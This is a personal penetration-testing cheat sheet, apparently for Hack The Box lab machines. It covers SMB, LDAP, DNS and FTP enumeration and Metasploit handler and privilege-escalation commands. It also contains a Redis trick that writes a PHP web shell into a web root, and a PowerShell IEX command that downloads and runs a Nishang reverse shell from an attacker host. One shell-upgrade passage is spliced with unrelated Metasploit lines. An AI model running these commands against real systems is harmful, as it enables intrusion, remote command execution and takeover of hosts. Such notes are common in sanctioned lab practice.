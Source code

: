 
# NMAP
nmap -sC -sV -sT -oA NMAP/HTB 10.10.10.161

# FTP
ftp $targetip
Username: anonymous
Password: anything

# HTTP

gobuster dir -w /usr/share/wordlists/dirb/big.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.157:80 -o   gobuster_10.10.10.157_80.txt


# SMB
- smbclient -N -L //10.10.10.161/

- smbclient -L \\10.10.10.3

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

- smbclient -N //10.10.10.161/Share

- smbmap -H 10.10.10.3
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.3...
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
	Disk                                                  	Permissions
	----                                                  	-----------
	print$                                            	NO ACCESS
	tmp                                               	READ, WRITE
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS
	ADMIN$                                            	NO ACCESS

- smbmap -H 10.10.10.161 -u anonymous -d HTB.LOCAL

- mbmap -H 10.10.10.161 -u anonymous -d localhost

- Samba 3.0.20 < 3.0.25rc3 **exploit**

https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851

- Link do enumeracji: https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html?fbclid=IwAR1qQDsLzkudInhrnUwL1V9ONiVXMD-vW1V5hrEI92xmuhlExEFOmyu_3xc#check-null-sessions

- NetNTLM relaying:

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

# LDAP
ldapsearch -x -h 10.10.10.161 -s base namingcontexts
ldapsearch -x -h lightweight.htb -b "dc=lightweight,dc=htb" 

responder.py -I eth0 -w -f

-w : WPAD rogue server
-f : This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

# DNS
nslookup
SERVER 10.10.10.161
- 127.0.0.1
- 10.10.10.161

dnsrecon -r 127.0.0.0/24 -n 10.10.10.161

dnsrecon -r 127.0.1.0/24 -n 10.10.10.161

dnsrecon -r 10.10.10.0/24 -n 10.10.10.161


dig axfr @10.10.10.161

dig axfr bank.htb @10.10.10.161

# Upgrading Reverse Shells to be Fully Interactive
python -c "import pty; pty.spawn('/bin/bash')"
Press Ctrl+Z to background your reverse shell, then in your local machine run: 
- stty raw -echo
- fg

Type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:

stty size

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 > use exploit/multi/handler


msf5 exploit(multi/handler) > set lhost 10.10.14.17
lhost => 10.10.14.17
msf5 exploit(multi/handler) > set lport 8080
lport => 8080This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.

stty -rows 48 -columns 120

# Redis

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

flushall

set PleaseSubscribe "<? system($_REQUEST['cmd']); ?>"

config set dbfilename shell.php

config set dir /var/www/html/

save

# Python SERVER

python -m simpleHTTPServer

# Windows nishang shell

Linux Site:

- gedit Invoke-PowerShellTcp.ps1 (Invoke-PowerShellTcp -Reverse -IPAdress 192.168.1.32 -Port 4444
- python -m SimpleHTTPServer
- nc -lvp 4444

Windows Site:

- C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')

# Shells

https://www.yeahhub.com/msfvenom-all-payload-examples-cheatsheet-2017/

# Metasploit

- Handler

msf> use multi/handler

msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp

msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55)

- Privilige Escalation 1

getsystem

- Privilige Escalation 1

multi/recon/local_exploit_suggester

background

set session 1

run

# Privilige Escalation

-Windows

https://guif.re/windowseop?fbclid=IwAR2fwsD6D7XjFhZbD4IGSTHtQkGs5D7HXEwVEnCYSQEDWzsuqds8geOi7uc#EoP%208:%20Kernel%20vulnerabilities

https://www.scip.ch/en/?labs.20181011

- Linux
https://gtfobins.github.io/


